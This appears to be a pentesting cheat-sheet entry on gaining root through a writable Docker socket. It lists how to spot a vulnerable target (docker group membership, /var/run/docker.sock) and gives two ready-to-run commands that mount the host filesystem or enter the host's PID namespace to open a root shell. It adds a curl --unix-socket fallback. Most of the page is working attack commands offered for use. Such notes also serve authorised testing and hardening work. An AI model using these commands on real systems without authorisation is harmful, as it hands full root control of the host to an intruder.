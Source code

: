 #vulnerability

# Writable Docker Socket
## What is Writable Docker Socket?
If you have privileges to write to `docker`'s socket - you can get root!

## What does Writable Docker Socket give me?
Root!

## Any documentation on Writable Docker Socket?
[HackTricks - Writeable docker socket](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-docker-socket)

## How do I verify that a target is vulnerable?
* `groups` - `docker`
* `/var/run/docker.sock`

## How do I use Writable Docker Socket?
### Bash
```bash
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```
if you get an error that package `ubuntu`/`debian` is not available - run `docker images` to find a local image you can use!

### Curl
If you cannot use the `docker` bash executable for some reason, you can use `curl --unix-socket` for communication.[]()